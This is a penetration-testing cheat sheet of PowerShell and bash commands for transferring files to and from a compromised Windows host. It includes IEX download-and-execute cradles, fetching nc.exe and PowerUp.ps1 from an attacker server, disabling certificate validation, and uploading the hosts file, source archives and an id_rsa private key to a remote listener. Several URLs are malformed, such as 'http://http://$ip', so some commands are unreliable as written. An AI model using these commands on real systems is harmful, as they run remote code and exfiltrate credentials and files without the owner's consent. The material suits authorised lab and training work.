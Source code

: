 ## Download
#### Net.WebClient 
```powershell
(New-Object Net.WebClient).DownloadFile('http://$ip','<Output>')
(New-Object Net.WebClient).DownloadFileAsync('http://$ip','<Output>')
(New-Object Net.WebClient).DownloadFile('http://$ip','<Output>') -UseBasicParsing

IEX(New-Object Net.WebClient).DownloadString('http://$ip')
(New-Object Net.WebClient).DownloadString('http://$ip') | IEX
(New-Object Net.WebClient).DownloadString('http://$ip') -UseBasicParsing| IEX
```

Possible issues and fixes:
1. Errors stemming from Internet Explorer in `Net.WebClient `can be fixed with                   `-UseBasicParsing`
2. Untrusted SSL Certificate issues can be fixed with the following:`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

####  Invoke-WebRequest
``` Powershell
iwr http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
curl http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
wget http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
```
#### SMB
```bash
impacket-smbserver share -smb2support $(pwd)/share
impacket-smbserver share -smb2support $(pwd)/share -user adot -password adot
```

```powershell
copy \\http://$ip\share\nc.exe
net use n: \\http://$ip\share /user:adot adot
```
#### FTP
```bash
python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://http://$ip/file.txt', 'C:\Users\Public\ftp-file.txt')
IEX(New-Object Net.WebClient).DownloadString('ftp://$ip')
```

```powershell
C:\htb> echo open http://$ip > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open http://$ip
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
##### Base64 Conversion
```bash
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
```

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("LS0tLS1..."))

Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

## Upload
#### Web Uploads
```bash
python3 -m uploadserver
```
[PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://$ip/PSUpload.ps1')
Invoke-FileUpload -Uri http://http://$ip:8000/upload -File C:\Windows\System32\drivers\etc\hosts


$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
#### WebDav (SMB restrictions)
```bash
wsgidav --host=0.0.0.0 --port=80 --root=$(pwd) --auth=anonymous 
```

```powershell
dir \\http://$ip\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\http://$ip\DavWWWRoot\
```
#### FTP
```bash
python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
#### PowerShell Base64 Encode & Decode
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

```bash
echo IyBDb3B5cmln... | base64 -d > hosts

md5sum hosts 
```

